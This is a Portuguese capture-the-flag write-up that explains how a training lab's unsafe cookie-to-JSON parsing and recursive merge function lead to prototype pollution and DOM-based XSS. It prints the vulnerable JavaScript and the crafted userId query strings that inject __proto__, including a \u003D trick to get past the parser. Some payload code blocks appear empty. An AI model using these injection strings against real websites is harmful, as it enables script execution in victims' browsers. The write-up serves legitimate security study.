




# Writeup: Blog do SiDiney CTF

## Introdução

Blog do SiDiney é um CTF web criado por Rafael Santos com o intuito de servir como estudo de uma vulnerabilidade conhecida como **prototype pollution**. O projeto pode ser encontrado em [https://github.com/RafaelSantos025/prototype_pollution_lab_2.0](https://github.com/RafaelSantos025/prototype_pollution_lab_2.0).

Este CTF possui as seguintes regras:

- Objetivo: Conseguir um XSS (*cross-site scripting*) que execute **alert(document.domain)** no browser da vítima. Self-XSS não vale.
- Proibido o uso de bruteforce.
- Proibido o uso de scanners automáticos.

Tendo em mente o objetivo e proibições, podemos visitar o site e começar a procurar por vulnerabilidades.

## Acesso inicial


A primeira coisa que encontramos ao acessar o site é uma página com um menu de navegação. Pela URL podemos inferir que o site utiliza o query parameter **page** para pegar o conteúdo da página que estamos visitando. Ao alterar este parâmetro para um valor qualquer, o site ainda exibe o menu de navegação, mas não exibe nenhum conteúdo embaixo do menu.

```jsx
Urls válidas:
[http://127.0.0.1:1256/?page=home](http://127.0.0.1:1256/?page=home)
[http://127.0.0.1:1256/?page=contact](http://127.0.0.1:1256/?page=contact)
[http://127.0.0.1:1256/?page=company](http://127.0.0.1:1256/?page=company)
[http://127.0.0.1:1256/?page=benefits](http://127.0.0.1:1256/?page=benefits)
```

Ao navegar pelas páginas, estamos procurando principalmente por elementos HTML que podem ser utilizados para executar um ataque XSS como inputs e forms, mas o site não aparenta ter nenhum desses elementos. Vamos analisar o código fonte das páginas para ver se conseguimos obter mais informações.

```html
<html>
<head>
  <link rel="stylesheet" href="./css/main.css">
</head>
<body>
    <h1 style="text-align: center;">Blog do SiDiney!!!</h1>
    <br>
    <div class="tab">
         <b style="text-align: center"><a href="?page=home" style="text-decoration:none" >&nbsp; HOME &nbsp;</a><b>
         <b><a href="?page=contact" style="text-decoration:none" >&nbsp; CONTATO &nbsp;</a><b>
         <b><a href="?page=company" style="text-decoration:none" >&nbsp; SITE &nbsp;</a><b>
         <b><a href="?page=benefits" style="text-decoration:none" >&nbsp; BENEFICIO &nbsp;</a><b>
    </div>
    <br><br><br>
    <div id="content"></div>

    <!-- TODO - Footer
    <div id="footer"></div>
    -->
    <script src="./js/main.js"></script>
</body>
</html>
```

Podemos observar que todas as quatro páginas possuem o mesmo código fonte mesmo contendo conteúdos diferentes. Isso indica que as páginas podem estar sendo carregadas através de JavaScript, possivelmente pelo arquivo em **"./js/main.js".** Também podemos notar que existe um elemento com **id=footer** que está comentado.

## Arquivo JavaScript main.js

Fazendo uma leitura do arquivo, podemos obter várias informações sobre o funcionamento do site:

- As páginas do site de fato são carregadas por JavaScript utilizando o query parameter **page**, e o conteúdo das páginas está declarado em uma variável global **pages**. A princípio, também podemos afirmar que não há forma de alterar as propriedades dessa variável.

```jsx
var pages = {
    'home': '<h2 style="text-align: center">Bem vindo ao meu mundo SiDier!</h2><br><h3 style="text-align: center">< SiDivirta /></h3><br><h3 style="text-align: center">< SiDiscubra /></h3><br><h3 style="text-align: center">< SiDedique /></h3>',
    'contact': '<h2 style="text-align: center;">Ola, eu sou o SiDiney!<br><br><br></h2><p><b>E-mail: sidney.sidi@sidi.org.br</b></p>',
    'company': '<h2 style="text-align: center">Olhe meu site favorito!</h2><br><div class="centerDiv"><iframe style="width:100%;height:80%" src="https://sidi.org.br"><iframe></div>',
    'benefits': '<h2 style="text-align: center;">Aqui posso hackear sem ser preso!</h2><br><br>'
}
...
function getPageContent(page){ // "page" é obtido através do query parameter
    try{
        document.getElementById("content").innerHTML = pages[page].toString();
    }catch(err){
      handleError(err);
    }
}
```

- O site armazena cookies obtidos através do query parameter **userId**. Como temos controle sobre esse parâmetro, podemos colocar valores arbitrários neste cookie.

```jsx
function setCookies(params){
    try{
        if (params["userId"] != undefined){
            document.cookie = "userId=" + params["userId"] + ";";
        }else{
            document.cookie = "userId=Guest";
        }
    }catch(err){
      handleError(err);
    }
}
```

Para confirmar isso, vamos acessar o site através do link

```jsx
[http://127.0.0.1:1256/?page=home&userId=valorArbitrario](http://127.0.0.1:1256/?page=home&userId=valorArbitrario)
```

Acessando o **Storage Inspector** do Firefox podemos ver que o valor do cookie realmente foi alterado.



- Sempre que carregamos uma página, ocorre um erro no JavaScript e a função para tratamento de erros **handleError** é executada. O motivo disso é que o elemento **footer** não existe pois está comentado no código HTML. A princípio, ainda não sabemos o que fazer com essa informação, mas é uma boa ideia investigar os erros que ocorrem pois geralmente se tratam de um comportamento inesperado na aplicação, que pode levar a vulnerabilidades.

```jsx
function loadFooter(){
    /*
      TODO - Finish Footer
    */
    try{
        document.getElementById("footer").innerHTML = "SIDI";
    }catch(err){
			// handleError sempre é executado pois o elemento "footer" não existe no HTML
      handleError(err);
    } 
}
```

- O site possui uma funcionalidade para coletar logs de erros que ocorrem durante a execução do JavaScript. A função **collectErrorLogs()** executa **JSON.parse()** que converte uma string com formato JSON em um objeto, e como a função utiliza o cookie **userId** como input sem sanitização, podemos fazer com que o objeto **trackUserCookie** seja criado com propriedades arbitrárias. A função **append()** é chamada utilizando **trackUserCookie** como parâmetro.

```jsx
function handleError(error){
    var err = {"error":error};
    sendLogError(err);
    console.log(error);
}

function sendLogError(error){
    logs = collectErrorLogs(error);
    var url = "https://logs.collect-everything.com/?log=" + encodeURI(logs);
    /* TODO - Implement send log to server
    makeRequest(url);
    */
}

function collectErrorLogs(error){
    var trackUserCookie = JSON.parse('{"userId": "' + document.cookie.split(";")[0].split("=")[1] + '"}');    
    var logs = append(error, trackUserCookie);

    return logs;
}
```

Na função **append()** é onde se encontra a vulnerabilidade que nos permitirá fazer o **prototype pollution**. De forma resumida, essa função pega as propriedades e valores de **obj2**, e os atribui em **obj1**. Como **obj2** é nosso objeto **trackUserCookie** com propriedades arbitrárias, essa função permite sobrescrever qualquer propriedade de **obj1**. Isso também nos permite acessar a propriedade **__proto__** de **obj1**, levando a **prototype pollution**.

```jsx
function append(obj1, obj2) {
    try{
        for(var key in obj2) {
            if(typeof(obj1[key]) === "object" && typeof(obj2[key]) === "object") {
                append(obj1[key], obj2[key]);
            } else {
                obj1[key] = obj2[key];
            }
        }
        return obj1;
    }catch(err){
      handleError(err);
    }
};
```

## Prototype pollution

JavaScript é uma linguagem de programação **prototype based**. Objetos em JavaScript possuem por padrão todas as propriedades do protótipo **object**. Este protótipo possui funcionalidades básicas como **toString** e **constructor**. **Prototype pollution** se refere a uma vulnerabilidade que permite a alteração das propriedades do protótipo **object**, que se propagam por todos os outros objetos JavaScript. Essas propriedades podem ser modificadas acessando **__proto__** de qualquer objeto JavaScript. Por exemplo:

```jsx
var pessoa = {"nome": "Erick", "idade": 23, "amane": "kanata"};
console.log(pessoa.sobrenome); // output: undefined

var objetoVulneravel = {};
objetoVulneravel['__proto__'].sobrenome = "poluido";
console.log(pessoa.sobrenome); // output: poluido
```

## O exploit

Ao perceber que o site está vulnerável a prototype pollution, podemos formular o seguinte plano para executar um ataque XSS:

- Fabricar um query parameter que altere o cookie **userId** para que quando o erro for causado por causa do elemento **footer**, a função **append()** altere o prototype de **object**, inserindo uma string que contem o XSS.
- Acessar a propriedade do protótipo poluído pela variável global **pages** ao especificar no query parameter o nome da propriedade.
- Profit!

Para alterar o cookie **userId**, iremos utilizar o seguinte query parameter:

```jsx
/?userId=asdfg", "__proto__": {"XSSPage": "PAYLOAD"}, "qwerty": "zxcvb
```

Isso fará com que o cookie seja alterado, e a variável **trackUserCookie** assuma o seguinte valor:

```jsx
var trackUserCookie = {
		userId: "asdfg",
	  __proto__: {
				XSSPage: "PAYLOAD"
		},
		qwerty: "zxcvb"
}
```

A este ponto o **prototype pollution** ainda não ocorreu. **__proto__** é apenas um atributo normal de **trackUserCookie**. Apenas após executar a função **append()** que o prototype vai ser poluído. O seguinte código será executado em **append()** que irá poluir o prototype de **object** com nosso payload malicioso. A partir daí, todo objeto terá uma propriedade **XSSPage** com o valor **"PAYLOAD"**.

```jsx
obj1['__proto__']['XSSPage'] = "PAYLOAD";
```

Para acessar a página com o payload malicioso, utilizamos o query parameter **page=XSSPage**, que acessará a propriedade inserida por **prototype pollution**.

```jsx
/?page=XSSPage&userId=asdfg", "__proto__": {"XSSPage": "PAYLOAD"}, "qwerty": "zxcvb
```



Podemos ver que nosso payload malicioso está sendo incluído na página. Poderíamos experimentar um payload com **"<script>alert(document.domain)</script>"** para tentar executar um alert, mas isso não funcionaria pois ao inserir HTML com innerHTML, tags **<script>** não são executadas. Uma forma de executar JavaScript neste caso é utilizando uma imagem:

```jsx

```

Para experimentar o novo payload, acessamos o site da seguinte forma:

```jsx
/?page=XSSPage&userId=asdfg", "__proto__": {"XSSPage": ""}, "qwerty": "zxcvb
```

Ao acessar o site, notamos que o payload não funcionou pois não recebemos um **alert**. Inspecionando o console podemos ver o seguinte erro:



Este erro ocorre pois no momento de executar **JSON.parse()**, o cookie está sendo cortado no símbolo de "**=**", e isso faz com que a string não esteja em um formato JSON válido.

```jsx
var trackUserCookie = JSON.parse('{"userId": "' + document.cookie.split(";")[0].split("=")[1] + '"}');
```

Para contornar este problema, vamos utilizar a codificação unicode para representar o caractere **"="** de uma forma alternativa. Substituindo o caractere por **\u003D**, vamos acessar o site novamente com os seguintes parâmetros:

```jsx
/?page=XSSPage&userId=asdfg", "__proto__": {"XSSPage": ""}, "qwerty": "zxcvb
```



Sucesso! Ao visitar o site um **alert** é executado, comprovando que conseguimos um XSS no site.

Com isso finalizo o writeup do CTF do blog do SiDiney. Espero que tenham conseguido aprender algo novo com a leitura. Obrigado Rafael Santos pela criação do CTF, e pela licença do Burp pro. (*￣▽￣*)